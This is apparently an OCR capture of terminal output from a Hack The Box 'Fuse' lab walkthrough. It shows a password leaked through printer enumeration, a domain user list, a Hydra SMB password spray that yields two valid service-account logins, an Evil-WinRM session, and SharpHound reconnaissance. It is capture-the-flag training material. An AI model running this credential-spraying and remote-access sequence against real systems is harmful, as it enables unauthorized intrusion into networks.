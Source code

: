 
rpcclient $> enumprinters 
        flags:[0x800000]
        name:[\\10.10.10.193\HP-MFT01]
        description:[\\10.10.10.193\HP-MFT01,HP Universal Printing PCL 6,Central (Near IT, scan2docs password: $fab@s3Rv1ce$1)]
        comment:[]



Administrator
Guest
krbtgt
DefaultAccount
svc-print
bnielson
sthompson
tlavel
pmerton
svc-scan
bhult
dandrews
mberbatov
astein
dmuir



kali@kali:~/htb/boxes/fuse/10.10.10.193$ hydra -L users.txt -P valid-password.txt smb://10.10.10.193 -t 32
Hydra v9.2-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-28 15:23:46
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 30 login tries (l:15/p:2), ~30 tries per task
[DATA] attacking smb://10.10.10.193:445/
[445][smb] host: 10.10.10.193   login: svc-print   password: $fab@s3Rv1ce$1
[445][smb] host: 10.10.10.193   login: svc-scan   password: $fab@s3Rv1ce$1
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-01-28 15:23:58


evil-winrm -i 10.10.10.193 -u svc-print -p '$fab@s3Rv1ce$1'

*Evil-WinRM* PS C:\Users\svc-print\Documents> whoami
fabricorp\svc-print


upload /usr/share/metasploit-framework/data/post/SharpHound.exe

[+] Pre-populating Domain Controller SIDS
Status: 0 objects finished (+0) -- Using 19 MB RAM
[+] Creating Schema map for domain WORKGROUP using path CN=Schema,CN=Configuration,DC=WORKGROUP
Status: 69 objects finished (+69 2.3)/s -- Using 27 MB RAM
Status: 70 objects finished (+1 1.428571)/s -- Using 28 MB RAM
Enumeration finished in 00:00:49.2601026
Compressing data to .\20210128064237_BloodHound.zip
You can upload this file directly to the UI
